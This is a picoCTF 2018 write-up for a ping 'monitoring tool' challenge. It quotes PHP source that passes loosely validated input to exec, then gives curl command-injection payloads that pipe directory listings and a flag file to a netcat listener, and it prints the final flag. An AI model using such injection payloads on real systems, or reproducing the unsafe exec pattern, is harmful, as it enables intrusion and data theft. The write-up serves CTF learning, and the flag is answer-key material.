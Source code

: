 # Problem
One of my school mate developed an alive monitoring tool. Can you get a flag from [http://2018shell1.picoctf.com:56517](http://2018shell1.picoctf.com:56517)?

## Hints:
This application uses the validation check both on the client side and on the server side, but the server check seems 
to be inappropriate.

You should be able to listen through the shell on the server.

## Solution:
Lets view the website:

![screenshot 1](./screenshot-1.png)

```html
<html>
<head>
	<title>Monitoring Tool</title>
	<script>
	function check(){
		ip = document.getElementById("ip").value;
		chk = ip.match(/^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$/);
		if (!chk) {
			alert("Wrong IP format.");
			return false;
		} else {
			document.getElementById("monitor").submit();
		}
	}
	</script>
</head>
<body>
	<h1>Monitoring Tool ver 0.1</h1>
	<form id="monitor" action="index.php" method="post" onsubmit="return false;">
	<p> Input IP address of the target host
	<input id="ip" name="ip" type="text">
	</p>
	<input type="button" value="Go!" onclick="check()">
	</form>
	<hr>

<?php
$ip = $_POST["ip"];
if ($ip) {
	// super fancy regex check!
	if (preg_match('/^(([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5]).){3}([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])/',$ip)) {
		exec('ping -c 1 '.$ip, $cmd_result);
		foreach($cmd_result as $str){
			if (strpos($str, '100% packet loss') !== false){
				printf("<h3>Target is NOT alive.</h3>");
				break;
			} else if (strpos($str, ', 0% packet loss') !== false){
				printf("<h3>Target is alive.</h3>");
				break;
			}
		}
	} else {
		echo "Wrong IP Format.";
	}
}
?>
<hr>
<a href="index.txt">index.php source code</a>
</body>
</html>
```

We can see that the IP check in the client side is done using JS [```match```](https://www.w3schools.com/jsref/jsref_match.asp) function. This functions returns only the matching part.

In the other hand, the server side check is done using PHP [```preg_match```](http://php.net/manual/en/function.preg-match.php) which just checks if there is a match and if so, the entire input string is being passed to [```exec```](http://php.net/manual/en/function.exec.php). If we pass/skip the client side check, we can inject code...

Lets use some [code injection](https://en.wikipedia.org/wiki/Code_injection):

* Listen on the server to some unused port:
* * ```bash
	nc -l 12345
	```
* Send malicious request to the website:
  * ```bash
    curl -d "ip=127.0.0.1;ls | nc localhost 12345" -X POST http://2018shell1.picoctf.com:56517/index.php
    ```
* Look at the output:
  * ```
    index.php
	index.txt
	super-secret-1365-flag.txt
	xinet_startup.sh
	```
* Get the flag:
  * ```bash
  	curl -d "ip=127.0.0.1;cat super-secret-1365-flag.txt | nc localhost 12345" -X POST http://2018shell1.picoctf.com:56517/index.php
  	```
  * ```bash
    Here is your flag: picoCTF{n3v3r_trust_a_b0x_36d4a875}
    ```

Nice.

Flag: picoCTF{n3v3r_trust_a_b0x_36d4a875}
